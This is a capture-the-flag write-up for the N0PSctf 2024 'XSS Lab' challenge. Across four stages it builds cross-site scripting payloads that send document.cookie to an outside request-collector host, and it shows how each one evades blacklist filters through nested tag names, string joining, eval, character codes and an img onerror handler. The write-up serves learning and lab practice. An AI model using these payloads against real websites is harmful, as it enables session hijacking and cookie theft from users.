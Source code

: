 # N0PSctf 2024

## XSS Lab

> xss, EVERYWHERE
>
> Note : If your payload does not seem to work at first, please use RequestBin to check before contacting the support.
> 
> Author: algorab
> 

Tags: _web_

## Solution
We get a simple web page that lets us send a payload. When editing the page tells us `Bot will visit https://nopsctf-xss-lab.chals.io/?payload=abc` and after pressing `Send this payload` the page shows `Page visited!`.

Lets try some fairly vanilla payload: 
```js
<script>fetch('https://xxxxxxxxxxxxx.x.pipedream.net?'+document.cookie);</script>
```

And sure enough, the endpoint is called with `/?xss2=/bf2a73106a3aa48bab9b8b47e4bd350e`. On no... another one? We are at stage `XXS Me 2` and the page tells us we have to bypass a filter this time:

```python
def filter_2(payload):
    return payload.lower().replace("script", "").replace("img", "").replace("svg", "")
```

This is not too hard, we can use the `sscriptcript` trick. This works since the replacement is not done again, so the additional `script` is replaced with an empty string, transforming `sscriptcript` to `script. Our payload looks like this:

```js
<sscriptcript>fetch('https://xxxxxxxxxxxxx.x.pipedream.net?'+document.cookie);</sscriptcript>
```

We pass the filter and get to stage 3, with a new, enhanced filter.

```python
def filter_3(payload):
    if "://" in payload.lower():
return "Nope"
    if "document" in payload.lower():
return "Nope"
    if "cookie" in payload.lower():
return "Nope"
    return payload.lower().replace("script", "").replace("img", "").replace("svg", "")
```

We cannot use `://`, `document` or `cookie` anymore. This can be bypassed by joining strings. For the `document.cookie` part we dont want it to be a string but javascript that will be evaluated. So we call `eval` manually on the string, case closed.

```js
<sscriptcript>fetch(['https',':/','/'].join``+'xxxxxxxxxxxxx.x.pipedream.net?'+eval(['doc','ument'].join``+'.'+['coo','kie'].join``));</sscriptcript>
```

Sigh, another stage, with more filtering.

```python
def filter_4(payload):
    if any(c in payload for c in '+"/'):
return "Nope"
    if "://" in payload.lower():
return "Nope"
    if "document" in payload.lower():
return "Nope"
    if "cookie" in payload.lower():
return "Nope"
    return payload.replace("script", "").replace("img", "").replace("svg", "")
```

This time we aren't allowed any character like `+`, `"` or `/` in our payload. We don't use `"` but we concatenate strings with `+`. Luckily we just can call `string.concat` instead. Most of the forward slash characters we can replace with their ascii code like `String.fromCharCode(0x2f)` but the closing html tag is a problem. So we fall back to the `<img src=x onerror=your code goes here...>` form, since the tag doesn't need to be closed. We also don't put the js code in quotes after the `onerror` attribute, that works just fine.

```js
<iimgmg src=x onerror=fetch(['https',':',String.fromCharCode(0x2f),String.fromCharCode(0x2f)].join``.concat('en9ek3a47biul.x.pipedream.net?').concat(eval(['doc','ument'].join``.concat('.'.concat(['coo','kie'].join``)))))>
```

And sure enough, we passed the last stage and the endpoint is called with `flag=N0PS{cR05s_S1t3_Pr0_5cR1pT1nG}`.

Flag `N0PS{cR05s_S1t3_Pr0_5cR1pT1nG}`